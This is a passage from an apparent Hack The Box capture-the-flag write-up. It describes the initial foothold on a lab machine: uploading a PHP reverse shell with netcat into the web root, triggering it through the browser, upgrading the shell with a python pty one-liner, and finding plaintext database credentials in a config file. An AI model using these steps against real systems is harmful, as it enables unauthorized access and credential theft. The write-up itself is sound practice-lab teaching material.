 ### Initial Foothold

So we have Remote Code Execution as `www-data`. During my initial efforts, I uploaded a php web shell (found [here](http://pentestmonkey.net/tools/web-shells/php-reverse-shell){:target="_blank"}  at Pentest Monkey) to the /opt/ona/www directory ([4]). FOr some reason, I could not get any other reverse shell to work. I used netcat to transfer the file from my machine to the box. Since /ona/www was the public facing website, when I navigated to 10.10.10.171/ona/[name of uploaded file].php I could get a reverse shell back on my local machine.

#### Transferring Files with Netcat

In case you are wondering how to transfer files with netcat (skip this section if you are not wondering):

~~~bash
# on your local machine
# -w 3 means timeout after 3 seconds of idle connection
nc -w 3 <remote_ip> <remote_port> < <input_file_path>
# on remote machine 
nc -lvnp <port_number> > <output_file_path>

# Real example
nc -w 3 10.10.10.171 40005 < php-reverse-shell.php
nc -lvnp 40005 > /opt/ona/www/lamp.php

# Then we can get the shell back by navigating to 10.10.10.171/ona/lamp.php
~~~

**Make sure to edit the reverse shell to have your IP and port before sending it to the remote target. Otherwise it will not work.**

Once we got the reverse shell back, I ran:

~~~bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=screen
export SHELL=/bin/bash
~~~

Part of making a shell full TTY (see [RopNop's Guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/){:target="_blank"}  for more details), this made the shell easier to use in my case ([5]).

#### LinPEAS/LinEnum

We ran both these scripts, the only takeaway being that `mySQL` was running on the box. We tried default credentials, but they did not work.

#### Plaintext Credentials

After searching through various config files, we found plaintext database credentials in /opt/ona/www/local/config/database_settings.inc.php
